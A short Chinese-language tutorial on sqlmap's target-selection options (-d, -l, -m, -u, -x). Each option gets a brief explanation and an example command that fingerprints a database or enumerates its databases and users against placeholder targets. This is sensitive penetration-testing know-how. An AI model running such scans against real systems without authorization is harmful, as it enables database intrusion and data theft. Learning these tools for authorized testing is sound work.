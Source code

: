 ## -d

> 针对单一的数据库

```
python sqlmap.py -d "mysql://admin:admin@192.168.21.17:3306/testdb" -f --bann\
er --dbs --users
```

## -l

```
# 批量扫描url, 当然, 通过设置代理, sqlmap可以实现与bp的联动, nice!!!
# 假设 test.txt 里面是我们要扫描的
sqlmap -l test.txt   
```

## -m

```
# 这个参数和 -l 功能类似, 都是批量处理目标url
# 文件中的url要符合规范, 一个url 就是一行

sqlmap -m test.txt
```

> **sqlmap的 -m 参数和 -l 参数的区别**
>
> -m : 直接一个个加载测试每个已经知道的url
>
> -l : 通过交互使得测试, 比如sqlmap正在扫描某个网站, 如果发现了它的某个其他的域名, 这个时候在黑窗口上就会询问使用者, 要不要对这个新发现的url进行扫描啊. 



## -u

> 针对单一目标的url

```
# 获取一些指纹, 数据库的标识, 爆破数据库名字 , 爆破用户名

python sqlmap.py -u "http://www.target.com/vuln.php?id=1" -f --banner --dbs --users
```

## -x

```
# 这个参数
# 在基于单个或者批量请求的时候 直接带上这个参数就行
# 从sitemap.xml中解析访问目标. 适用于无法直接访问和暴露给sqlmap的目标.

-x http://www.target.com/sitemap.xml
```
